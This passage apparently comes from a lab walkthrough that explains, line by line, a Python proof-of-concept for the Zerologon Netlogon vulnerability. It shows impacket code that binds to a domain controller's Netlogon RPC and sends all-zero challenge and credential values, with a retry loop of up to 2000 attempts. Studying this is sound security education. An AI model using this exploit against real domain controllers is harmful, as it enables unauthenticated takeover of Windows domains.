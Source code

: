 Line 1 is defining where the variables are being passed into for the local function, \\DCNAME is being passed into the dc_handle variable, dc_ip is being passed into dc_ip variable, and dc_name is being passed into the target_computer variable. All of which will be used later, or passed into different modules.

Line 4 sets the variable rpc_con equal to none, this will be kept track of consistently to check and see if authentication is successful, if it's not, the script will continue until 2000 retries is hit. Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop. Line 6 sets the rpc_con variable to the output of a different function called "try_zero_authenticate" with a couple of variables being passed to it, specifically dc_handle, dc_ip, and target_computer. All of which we addressed earlier. The next lines are simply checking if rpc_con is equal to a invalid login attempt, if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.

**Lines 20-25**

```py
def try_zero_authenticate(dc_handle, dc_ip, target_computer):

    binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
    rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
    rpc_con.connect()
    rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
```

Line 1 is defining the try_zero_authenticate function and is taking the previously mentioned 3 variables as input, and is passing them into the function. Lines 3-6 are establishing a bind and a session with NRPC over TCP/IP so that we can communicate with the domain controller.

**Lines 27-40**

```py
plaintext = b'\x00' * 8
ciphertext = b'\x00' * 8

flags = 0x212fffff

nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
try:
server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)
```

Line 1 and 2 are establishing two new variables, plaintext and ciphertext containing 16 Bytes of "\x00" which will be used to exploit the Zero Logon vulnerability. Line 4 contains a variable called Flags. These are the default flags observed from a Windows 10 Client (using AES-CFB8) with the Sign and Seal bit disabled (Source/Credit: Secura).


Line 6 is where the fun beings -- This is where Step 1 beings in Figure 1, the client creates a NetrServerReqChallenge containing the following information required by the [Microsoft Documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/5ad9db9f-7441-4ce5-8c7b-7b771e243d32):

```py
NTSTATUS NetrServerReqChallenge(
    [in, unique, string] LOGONSRV_HANDLE PrimaryName,
    [in, string] wchar_t* ComputerName,
    [in] PNETLOGON_CREDENTIAL ClientChallenge,
);
```
